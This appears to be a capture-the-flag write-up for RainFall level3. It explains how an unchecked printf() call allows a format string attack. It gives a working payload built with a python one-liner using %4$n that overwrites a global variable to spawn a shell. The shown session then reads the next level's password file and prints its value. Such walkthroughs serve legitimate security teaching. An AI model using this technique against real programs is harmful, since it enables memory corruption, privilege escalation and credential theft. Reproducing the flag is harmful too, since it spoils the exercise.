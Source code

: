 This time, the program is using fgets(), which is proteced against buffer overflow attacks. But on the other hand, the printf() function is badly used: since it is given only one argument, each encountered modifier will be substituted by a value on the stack. We can therefore read the program's memory and reach interesting areas.

But first, let's have a look at the program: after calling fgets() and printf(), a shell is launched if the value of a global variable m (located at 0x0804988c) is equal to 64:
```
0x080484da <+54>:    mov    0x804988c,%eax
0x080484df <+59>:    cmp    $0x40,%eax
```
Fortunately for us, there is a way to write to memory using printf(): instead of printing something, the %n modifier causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.

Since we can browse the memory by exploiting our badly formatted printf(), we can find the position of our buffer in the stack. Thus, we can write in the buffer the address of the variable m, then overwrite the value pointed by this address by targeting the position of our buffer with %n. If this is not very clear yet, it will become so with the following demonstration.

So first, let's find the position of our buffer in the stack:
```
level3@RainFall:~$ ./level3 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Here we see that the 4th %x displays the first 4 bytes of our buffer (41414141), so we have determined that the buffer offset is 4.

Now let's format our input in a dedicated file. We need the m address in little endian, which is four bytes long, followed by 60 characters to get a total of 64 bytes (the value we want to put into m). And finally the %n modifier, with the '$' style in order to specify the offset:
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + 60 * "A" + "%4$n"' > /tmp/exploit
```

```
level3@RainFall:~$ cat /tmp/exploit - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We can now reach to the next level with the command `su level4` and fill in the flag found as a password.